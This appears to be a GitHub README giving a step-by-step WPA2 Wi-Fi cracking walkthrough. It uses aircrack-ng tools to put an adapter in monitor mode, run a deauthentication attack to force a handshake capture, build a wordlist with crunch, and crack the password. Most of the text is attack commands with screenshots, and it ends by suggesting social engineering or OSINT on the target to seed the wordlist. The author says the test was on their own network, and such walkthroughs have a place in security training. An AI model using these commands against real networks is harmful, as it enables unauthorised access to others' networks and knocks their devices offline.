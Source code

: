 # Run "ifconfig" to check if wireless adapter is properly connected to machine & to check adapter name. 
[+] In my case it's (wlan0).
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-12-38.png">

# Followed by "iwconfig" to check what mode your wireless adapeter is in
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-16-01.png">

# "ifconfig wlan0 down", "airmon-ng check kill" - to drop wlan0 conection and kill all network process connected to machine respectively.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-17-23.png">

# "iwconfig wlan0 mode monitor", "ifconfig wlan0 up" - turn on monitor mode on wireless adapter and bring up wlan0 connection.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-18-09.png">

# Check wlan0 status, should be in monitor mode now.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-18-20.png">

# "airodump-ng wlan0" - to monitor packets and wireless services around you.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-18-59.png">

# Displays both network and connected devices(STATION section), quit the process by hitting the "CTRL + C" on your keyboard.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2011-19-17.png ">

# "airodump-ng --bssid (enter bssid) --channel (enter CH) wlan0" - to monitor packets on a specific network.
[+] chose the network with the name H4CKER which is my personal network.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2012-19-13.png">

# "airodump-ng --bssid (enter bssid) --channel(enter CH) --write (name file) wlan0" - capture packets in a file 
[+] Run a deauthentication attack with"aireplay-ng --deauth 10 -a (target BSSID) -c (target MAC) wlan0 " on another pane to capture network handshake.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2013-54-18.png">

# Waiting to capture handshake while device conects back to WPA2 network.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2013-54-31.png ">

# Handshake should be captured once deauth attack is complete.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2013-54-39.png">

# Generate wordlist with crunch - "crunch 6 12 abc -o word.txt"
[+] name the ".txt" file as desired.
[+] generated a wordlist of a minimum of 6 and maximum of 12 characters.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2013-06-26.png">

# Run "aircrack-ng (captured_handshake_name) -w word.txt"
[+] use file with ".cap" extension.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2013-56-32.png ">

# Aircrack-ng running caputured packets with wordlist.
[+] if password is in generated wordlist aircrack should find it.
<img src="https://github.com/DghostNinja/Wifi_hacking/blob/main/Documentation/Camera%20Roll/Screenshot%20from%202023-08-17%2013-56-45.png ">

[+] This attack was perform on my private WPA2 network 
[+] You should have a range of letters attached to target network either through social engineering or OSINT in order to generate a working wordlist.
